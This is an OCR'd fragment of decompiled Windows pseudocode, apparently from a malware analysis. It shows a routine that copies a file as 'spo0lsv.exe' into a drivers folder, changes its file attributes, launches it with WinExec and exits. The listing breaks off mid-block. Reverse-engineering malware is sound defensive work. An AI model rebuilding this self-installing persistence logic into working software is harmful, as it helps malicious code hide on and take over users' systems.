 `   sub_40277C(v12, &v74);`

`   sub_40521C(v15, &v75);`

`   sub_4053AC(v75);`

`   sub_403F8C(v16, 3, "spo0lsv.exe", "drivers\\", v72);`

`   sub_40521C(v17, &v73);`

`   sub_404018(v18, v73);`

`   if ( !v19 )`

`   {`

`     sub_405FC4();`

`     sub_405FC4();`

`     sub_4053AC(128);`

`     sub_403F8C(v20, 3, "spo0lsv.exe", "drivers\\", v71);`

`     v21 = (const CHAR *)sub_4040CC();`

`     SetFileAttributesA(v21, v56);`

`     Sleep(1u);`

`     sub_4053AC(0);`

`     sub_403F8C(v22, 3, "spo0lsv.exe", "drivers\\", v70);`

`     v23 = (const CHAR *)sub_4040CC();`

`     sub_40277C(v24, &v69);`

`     v25 = (const CHAR *)sub_4040CC();`

`     CopyFileA(v25, v23, v53);`

`     sub_4053AC(1);`

`     sub_403F8C(v26, 3, "spo0lsv.exe", "drivers\\", v68);`

`     v27 = (const CHAR *)sub_4040CC();`

`     WinExec(v27, v28);`

`     ExitProcess_0(0);`

`   }`

` }`

` v29 = ((int (*)(void))sub_403ECC)();`

` sub_40416C(v29, i);`

` v49 = sub_4041B4(v48, v88);`

` if ( v49 > 0 )`

` {`
